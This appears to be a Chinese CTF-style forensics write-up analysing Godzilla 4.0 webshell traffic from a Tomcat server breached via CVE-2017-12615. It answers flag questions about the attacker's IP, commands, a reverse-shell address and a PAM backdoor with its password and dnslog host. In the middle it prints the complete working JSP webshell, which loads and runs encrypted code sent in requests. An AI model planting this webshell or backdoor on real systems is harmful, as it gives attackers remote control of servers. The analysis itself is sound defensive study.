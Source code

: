 # 第六章-哥斯拉4.0流量分析

  
  
&lt;!--more--&gt;  
#### 1、黑客的 ip 是什么？  
`http`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291826241.png)
`flag{192.168.31.190}`  
#### 2、黑客是通过什么漏洞进入服务器的？（提交 CVE 编号）  
通过观察`http`流量，发现一个 PUT 请求比较可疑，并且利用成功  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291828781.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291828685.png)
很明显利用的是 PUT 文件上传,并且通过服务器得知是`tomcat`中间件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291829092.png)
`flag{CVE-2017-12615}`  
#### 3、黑客上传的木马文件名是什么？(提交文件名)  
通过上面得知是`hello.jsp`  
`flag{hello.jsp}`  
#### 4、黑客上传的木马连接密码是什么？  
```jsp  
&lt;% !String xc = &#34;1710acba6220f62b&#34;;  
String pass = &#34;7f0e6f&#34;;  
String md5 = md5(pass &#43; xc);  
class X extends ClassLoader {  
    public X(ClassLoader z) {  
        super(z);  
    }  
    public Class Q(byte[] cb) {  
        return super.defineClass(cb, 0, cb.length);  
    }  
}  
public byte[] x(byte[] s, boolean m) {  
    try {  
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance(&#34;AES&#34;);  
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), &#34;AES&#34;));  
        return c.doFinal(s);  
    } catch (Exception e) {  
        return null;  
    }  
}  
public static String md5(String s) {  
    String ret = null;  
    try {  
        java.security.MessageDigest m;  
        m = java.security.MessageDigest.getInstance(&#34;MD5&#34;);  
        m.update(s.getBytes(), 0, s.length());  
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();  
    } catch (Exception e) {}  
    return ret;  
}  
public static String base64Encode(byte[] bs) throws Exception {  
    Class base64;  
    String value = null;  
    try {  
        base64 = Class.forName(&#34;java.util.Base64&#34;);  
        Object Encoder = base64.getMethod(&#34;getEncoder&#34;, null).invoke(base64, null);  
        value = (String) Encoder.getClass().getMethod(&#34;encodeToString&#34;, new Class[] {  
            byte[].class  
        }).invoke(Encoder, new Object[] {  
            bs  
        });  
    } catch (Exception e) {  
        try {  
            base64 = Class.forName(&#34;sun.misc.BASE64Encoder&#34;);  
            Object Encoder = base64.newInstance();  
            value = (String) Encoder.getClass().getMethod(&#34;encode&#34;, new Class[] {  
                byte[].class  
            }).invoke(Encoder, new Object[] {  
                bs  
            });  
        } catch (Exception e2) {}  
    }  
    return value;  
}  
public static byte[] base64Decode(String bs) throws Exception {  
        Class base64;  
        byte[] value = null;  
        try {  
            base64 = Class.forName(&#34;java.util.Base64&#34;);  
            Object decoder = base64.getMethod(&#34;getDecoder&#34;, null).invoke(base64, null);  
            value = (byte[]) decoder.getClass().getMethod(&#34;decode&#34;, new Class[] {  
                String.class  
            }).invoke(decoder, new Object[] {  
                bs  
            });  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName(&#34;sun.misc.BASE64Decoder&#34;);  
                Object decoder = base64.newInstance();  
                value = (byte[]) decoder.getClass().getMethod(&#34;decodeBuffer&#34;, new Class[] {  
                    String.class  
                }).invoke(decoder, new Object[] {  
                    bs  
                });  
            } catch (Exception e2) {}  
        }  
        return value;  
    } %&gt; &lt;%  
    try {  
        byte[] data = base64Decode(request.getParameter(pass));  
        data = x(data, false);  
        if (session.getAttribute(&#34;payload&#34;) == null) {  
            session.setAttribute(&#34;payload&#34;, new X(this.getClass().getClassLoader()).Q(data));  
        } else {  
            request.setAttribute(&#34;parameters&#34;, data);  
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();  
            Object f = ((Class) session.getAttribute(&#34;payload&#34;)).newInstance();  
            f.equals(arrOut);  
            f.equals(pageContext);  
            response.getWriter().write(md5.substring(0, 16));  
            f.toString();  
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));  
            response.getWriter().write(md5.substring(16));  
        }  
    } catch (Exception e) {} %&gt;  
```  
提取关键内容  
`String pass = &#34;7f0e6f&#34;;`  
`flag{7f0e6f}`  
#### 5、黑客上传的木马解密密钥是什么？  
密钥就是`xc`  
`String xc = &#34;1710acba6220f62b&#34;;`  
`flag{1710acba6220f62b}`  
#### 6、黑客连接 webshell 后第一条命令是什么  
直接用`BlueTools`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291837490.png)
`flag{uname -r}`  
#### 7、黑客连接 webshell 时查询当前 shell 的权限是什么？第一条命令是什么？  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291839805.png)
`flag{root}`  
#### 8、黑客利用 webshell 执行命令查询服务器 Linux 系统发行版本是什么？  
常用的查询 linux 发型版本命令  
```  
lsb_release -a  
    命令显示Linux标准基础（LSB）的相关信息  
    包括发行版的名称、版本号等。  
  
    cat /etc/*release  
    命令显示/etc目录下所有以release结尾的文件内容  
    这些文件通常包含发行版的信息。  
  
    cat /etc/issue  
    命令显示系统的发行版信息，通常包括名称和版本号。  
  
    hostnamectl  
    命令显示系统信息，包括操作系统的名称和版本。  
  
    uname -a  
    显示内核相关信息，包括内核版本，但不会显示发行版的详细信息。  
  
    cat /proc/version  
    显示内核版本信息，类似于uname -r命令  
  
    cat /etc/os-release  
    文件包含系统发行版的详细信息，包括PRETTY_NAME，版本ID等。  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291840820.png)
`flag{Debian GNU/Linux 10 (buster)}`  
#### 9、黑客利用 webshell 执行命令还查询并过滤了什么？（提交整条执行成功的命令）  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291841082.png)
但是通过解密返回包，这条命令并没有成功执行，继续找其他的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291843462.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291843015.png)
这条命令成功执行了，黑客是在安装`PAM`后门  
`flag{dpkg -l libpam-modules:amd64}`  
#### 10、黑客留下后门的反连的 IP 和 PORT 是什么？（IP:PORT)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291844834.png)
反弹`shell`命令，解密其中`base64`字符串  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291845735.png)
`flag{192.168.31.143:1313}`  
#### 11、黑客通过什么文件留下了后门？  
通过前面分析黑客一直在安装`pam`后门  
在数据包`56`发现黑客上传了`pam_unix.so`文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291852526.png)
`flag{pam_unix.so}`  
#### 12、黑客设置的后门密码是什么？  
在`/tmp`目录下面，并没有发现`pam_unix.so`文件，这里上服务器查询一下  
`find / -name &#34;pam*&#34; -type f -exec ls -lt {} &#43; 2&gt;/dev/null | sort -k 6,7`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291856603.png)
时间可疑，拖下来放入`ida`分析一下  
其`pam_sm_authenticate`是 `PAM`（可插拔认证模块）框架中的一个函数，主要用于用户身份验证。这个函数的作用是对用户提供的凭证（如密码）进行验证，通常是在 `PAM` 模块中实现的。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411292146656.png)
`flag{XJ@123}`  
#### 13、黑客的恶意 dnslog 服务器地址是什么？  
上面pam_unix.so中的dnslog地址   
`flag{c0ee2ad2d8.ipv6.xxx.eu.org.}`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E5%93%A5%E6%96%AF%E6%8B%894.0%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90/  

